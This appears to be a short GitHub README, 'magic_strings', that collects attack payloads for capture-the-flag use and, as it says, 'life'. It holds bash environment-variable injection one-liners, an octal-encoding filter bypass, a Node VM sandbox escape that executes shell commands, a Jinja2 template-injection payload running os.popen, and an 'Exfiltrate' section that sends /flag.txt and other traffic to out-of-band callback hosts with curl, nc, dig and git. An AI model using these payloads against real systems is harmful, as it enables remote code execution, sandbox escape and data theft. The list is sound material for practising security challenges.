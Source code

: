 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    ping here.xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh
    

## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
